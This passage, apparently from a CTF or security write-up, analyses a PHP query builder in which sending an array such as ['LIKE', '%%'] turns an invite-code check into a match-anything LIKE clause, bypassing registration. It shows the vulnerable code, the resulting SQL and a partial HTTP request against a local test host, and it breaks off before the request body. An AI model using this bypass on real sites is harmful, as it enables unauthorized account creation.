 ```php 
Imagine we call
$db->select([
    'SELECT' => '*',
    'FROM' => 'invites',
    'WHERE' => ['code' => ["LIKE", "%%"]] // instead of 'code' => 'astring'
]); 


// The WHERE CLAUSE is built here
// buildTerm(["LIKE", "%%"])
    private function buildTerm($term) {
         if (is_array($term)) { // We hit this !
            if (count($term) == 2 && isset($term[0]) /* LIKE */ && $this->isOperator($term[0]) /* Yes because LIKE is in the operators */) {
                $comparison = $term[0]; /* $comparison = LIKE */ 
                $criterion_value = $term[1]; /* value = %% */
            } else {
                // default , code IN xyz
                return 'IN ' . $this->buildValue($term);
            }
        } else {
            // default for string WHERE code = 'input'
            $comparison = '=';
            $criterion_value = $term;
        }
        return " $comparison " . $this->buildValue($criterion_value); // just quotes our value ('%%')
        // returns LIKE '%%'
    }

    private function isOperator($operator) {
        return in_array($operator, [
            '=', '!=', '<', '<=', '>', '>=', '<>',
            'LIKE', 'NOT LIKE', 'IN', 'NOT IN',
        ], true);
    }

```

So _in theory_ if we can send an array `['LIKE', '%%']` we create the statement 

```SQL
SELECT * FROM invites WHERE code LIKE '%%' 
```

**PERFECT** we would manage to register. 

At this point I changed the source code to remove the is_String check and send in this request to test. 

```http
POST /register.php HTTP/1.1
Host: lvh.me:8000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:143.0) Gecko/20100101 Firefox/143.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 31
Origin: http://lvh.me:8000
Connection: keep-alive
Referer: http://lvh.me:8000/register.php
Cookie: PHPSESSID=a8aa98f03bcf527e0a144b90d0f87dbf
Upgrade-Insecure-Requests: 1
Priority: u=0, i

```